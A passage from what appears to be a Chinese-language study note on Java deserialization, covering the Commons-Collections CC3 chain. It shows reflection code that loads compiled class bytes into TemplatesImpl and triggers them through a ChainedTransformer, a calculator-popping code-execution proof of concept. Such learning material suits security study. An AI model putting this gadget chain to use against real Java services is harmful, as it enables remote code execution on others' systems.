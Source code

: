![](https://picgo-1300397932.cos.ap-nanjing.myqcloud.com/picgo/20231206143011.png)

在 `readObject()` 方法中，找到了 `_tfactory` 的初始化定义。所以这里直接在反射中将其赋值为 `TransformerFactortImpl` 即可。

`_bytecodes`的写法也要关注一下。它是二维数组类型，但是需要传入defineClass的是一维数组：

![](https://picgo-1300397932.cos.ap-nanjing.myqcloud.com/picgo/20231206152314.png)

# CC1链实现TemplatesImpl

![](https://picgo-1300397932.cos.ap-nanjing.myqcloud.com/picgo/20231206155638.png)

非常好的图，加了点注释。来自https://drun1baby.top/2022/06/20/Java%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96Commons-Collections%E7%AF%8704-CC3%E9%93%BE/#0x05-CC1-%E9%93%BE%E7%9A%84-TemplatesImpl-%E7%9A%84%E5%AE%9E%E7%8E%B0%E6%96%B9%E5%BC%8F

先缝合起来尝试一下：

```java
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;

import java.lang.reflect.Field;
import java.nio.file.Files;
import java.nio.file.Paths;

public class LazyMap_TemplateImpl {
    private static void setFiledValue(Object obj, String fieldName, Object fieldValue) throws Exception {
        Field field = obj.getClass().getDeclaredField(fieldName);
        field.setAccessible(true);
        field.set(obj, fieldValue);
    }

    public static void main(String[] args) throws Exception{
        byte[] codes = Files.readAllBytes(Paths.get("E:\\研究生\\JavaSec\\code\\target\\classes\\Calc.class"));
        byte[][] _bytecodes = new byte[][] {codes};
        TemplatesImpl templates = new TemplatesImpl();
        setFiledValue(templates, "_bytecodes", _bytecodes);
        setFiledValue(templates, "_name", "whatever");
        setFiledValue(templates, "_tfactory", new TransformerFactoryImpl());
        templates.newTransformer();
        Transformer[] transformers = new Transformer[] {
                new ConstantTransformer("templates"),
                new InvokerTransformer("newTransformer",null,null)
        };
        Transformer transformerChain = new ChainedTransformer(transformers);
        transformerChain.transform(1);
    }
}
```

